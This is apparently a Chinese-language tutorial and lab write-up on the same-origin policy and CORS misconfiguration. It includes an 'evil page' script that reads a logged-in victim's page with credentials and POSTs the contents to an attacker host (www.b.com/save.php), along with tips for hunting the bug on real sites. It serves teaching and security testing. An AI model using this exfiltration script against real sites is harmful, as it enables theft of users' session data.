 #### CORS跨域读取学习 ####
<b>0x00同源策略</b>
SOP同源策略，该策略是浏览器的一个安全基操，如果没有同源策略，那么你打开了一个合法网站，又打开了一恶意网站。恶意网站的脚本能够随意的操作合法网站可操作资源，没有任何限制。

同源策略介绍:[Same-origin policy - Wikipedia](https://en.wikipedia.org/wiki/Same-origin_policy)
浏览器同源策略规定：不同域的客户端脚本在没有明确授权的情况下，不能读取读写对方的资源。那么何为同源：
|协议|域名|端口|是否同源
|-|-|-|-|
|相同|相同|相同|是
|不同|相同|相同|否
|相同|相同|不相同|否

![](https://ask.qcloudimg.com/http-save/yehe-1539004/q2owt35awt.jpeg?imageView2/2/w/1620)

一个最好的例子：
```
你在本地手动远程读取百度的logo，以读取到的二进制数据为准。很快你就会发现不行
这都是同源策略
```

>CORS，跨域资源共享（Cross-origin resource sharing），是H5提供的一种机制，WEB应用程序可以通过在HTTP增加字段来告诉浏览器，哪些不同来源的服务器是有权访问本站资源的，当不同域的请求发生时，就出现了跨域的现象。

<b>0x01跨域访问的一些场景</b>
>1.比如后端开发完一部分业务代码后，提供接口给前端用，在前后端分离的模式下，前后端的域名是不一致的，此时就会发生跨域访问的问题。
2.程序员在本地做开发，本地的文件夹并不是在一个域下面，当一个文件需要发送ajax请求，请求另外一个页面的内容的时候，就会跨域。
3.电商网站想通过用户浏览器加载第三方快递网站的物流信息。
4.子站域名希望调用主站域名的用户资料接口，并将数据显示出来。

<b>0x03CORS漏洞的攻击流程</b>
Access-Control-Allow-Origin:*
Access-Control-Allow-Credentials:true
```
通过指定：Access-Control-Allow-Origin允许那些来源可以跨域读取本站的资源，当Access-Control-Allow-Origin为默认的时候。允许任意来源来访问本站的资源，那么就导致了跨域读取

当站点没有指定Access-Control-Allow-Origin的时候，用户访问恶意站点的脚本，恶意站点的脚本请求站点。会被浏览器的同源策略默认拦截

当站点设置了Access-Control-Allow-Origin:*，用户访问恶意站点的脚本，恶意站点的脚本请求站点。浏览器的同源策略不起作用。因为被请求的站点允许任何来源跨域读取本站内容
```

攻击者手法：
攻击者利用cors漏洞把A.com的orgin改成接收用户信息的在线脚本B.com，然后生成一个链接引诱受害者去点击，如果受害者正好登录了A.com 并且点击了这个链接，则会把cookie发送到B.com

实例：
物理机win7:www.a.com
Kali:www.b.com


www.a.com/cors/a.php
```php
<?php
header("Content-Type: text/html;charset=utf-8");
if (isset($_COOKIE['demo'])){
    echo "欢迎管理员登录";
}else{
    echo '你好,游客';
}
if(isset($_GET['user'])){
    if($_GET['user']=='admin'){
        setcookie('demo','1');
    }
}
?>
```

www.b.com/demo.html
```html
<!DOCTYPE>
<html>
<h1>Hello I evil page. </h1>
<script type="text/javascript">
function loadXMLDoc()
{
    var xhr1;
    var xhr2;
    if(window.XMLHttpRequest)
    {
        xhr1 = new XMLHttpRequest();
        xhr2 = new XMLHttpRequest();
    }
    else
    {
        xhr1 = new ActiveXObject("Microsoft.XMLHTTP");
        xhr2= new ActiveXObject("Microsoft.XMLHTTP");
    }
    xhr1.onreadystatechange=function()
    {
        if(xhr1.readyState == 4 && xhr1.status == 200) //if receive xhr1 response
        {
            var datas=xhr1.responseText;
            xhr2.open("POST","http://www.b.com/save.php","true");
            xhr2.setRequestHeader("Content-type","application/x-www-form-urlencoded");
            xhr2.send("T1="+escape(datas));      
        }
    }
    xhr1.open("GET","http://www.a.com/cors/login.php","true") //request user page.
    xhr1.withCredentials = true;        //request with cookie
    xhr1.send();
}
loadXMLDoc();
</script>
</html>
```
login.php没有设置Access-Control-Allow-Origin
测试如下：
自动帮我们设置了origin头
![AJg1P0.md.png](https://s2.ax1x.com/2019/03/23/AJg1P0.md.png)


当我们放包，继续让浏览器执行的时候

(浏览器阻止了跨域读取)
![AJgaZ9.md.png](https://s2.ax1x.com/2019/03/23/AJgaZ9.md.png)

在login.php设置Access-Control-Allow-Origin
```php
<?php
header("Content-Type: text/html;charset=utf-8");
header("Access-Control-Allow-Origin: http://b.com");
header("Access-Control-Allow-Credentials: true");
if (isset($_COOKIE['demo'])){
    echo "欢迎管理员登录";
}else{
    echo '你好,游客';
}
if(isset($_GET['user'])){
    if($_GET['user']=='admin'){
        setcookie('demo','1');
    }
}
?>
```

重新请求一下,发现返回的响应里面有（Access-Control-Allow-Origin）
PS:在浏览器执行下一步执行用burp抓包重放是可以看到响应结果的
![AJRw36.png](https://s2.ax1x.com/2019/03/23/AJRw36.png)
```
Access-Control-Allow-Origin指是允许访问的源
Access-Control-Allow-Credentials指的是允许带上cookie访问资源
```
最后结果：
![AJWSrF.png](https://s2.ax1x.com/2019/03/23/AJWSrF.png)


![AJROCq.png](https://s2.ax1x.com/2019/03/23/AJROCq.png)

这里要注意的是，我们也可以测试下带有Access-Control-Allow-Origin: * 字段的网站是否有CORS漏洞，但是如果是如下组合，则没有漏洞，因为浏览器已经会阻止如下的配置。
![AJRsDe.png](https://s2.ax1x.com/2019/03/23/AJRsDe.png)

实际上挖掘跨域资源共享的要点就是：见到有origin请求返回的响应有Access-Control-Allow-Origin，尝试修改Origin头为自己的接收地址就行，详细看下面的secqun的文章。

<b>0x04总结</b>
实战挖SRC例子：
[secqun-前端跨域资源共享](https://secquan.org/Notes/1068983)
遨游浏览器没有做同源策略
[Maxthon for mac 获取保存的密码/跨域信息读取/任意文件写入 \| WooYun-2015-155672 | WooYun.org](http://www.anquan.us/static/bugs/wooyun-2015-0155672.html)